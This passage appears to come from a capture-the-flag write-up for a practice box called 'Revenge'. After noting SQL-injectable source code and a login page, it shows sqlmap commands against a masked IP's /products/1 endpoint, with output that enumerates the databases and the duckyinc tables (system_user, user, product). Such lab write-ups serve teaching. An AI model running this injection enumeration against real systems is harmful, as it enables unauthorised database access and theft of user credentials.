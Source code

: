 - vulnerable to SQL injection</p>

<br>

<img width="1214" height="310" alt="image" src="https://github.com/user-attachments/assets/a9000255-4a94-44dd-9b32-dd8d79006674" />

<br>
<br>
<h3>xx.xxx.xx.xxx/login</h3>


<img width="1187" height="587" alt="image" src="https://github.com/user-attachments/assets/569997b1-99d9-4cb6-b567-66c3832912c9" />

<br>
<br>
<h3>sqlmap</h3>

<br>

<img width="1351" height="324" alt="image" src="https://github.com/user-attachments/assets/133af0bc-449b-4e9d-a308-9c385e73da36" />

<br>

```bash
:~/Revenge# sqlmap -u http://xx.xxx.xx.xxx/products/1 --batch --risk 3 --level 5
...
back-end DBMS: MySQL >= 5.0.12
```

<br>


```bash
:~/Revenge# sqlmap -u http://xx.xxx.xx.xxx/products/1 --batch --risk 3 --level 5 --dbs
...
available databases [5]:                                                                                                                                                                               
[*] duckyinc
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

<br>

```bash
:~/Revenge# sqlmap -u http://xx.xxx.xx.xxx/products/1 --batch --risk 3 --level 5 -D duckyinc --tables
...
Database: duckyinc                                                                                                                                                                                     
[3 tables]
+-------------+
| system_user |
| user        |
| product     |
+-------------+
```
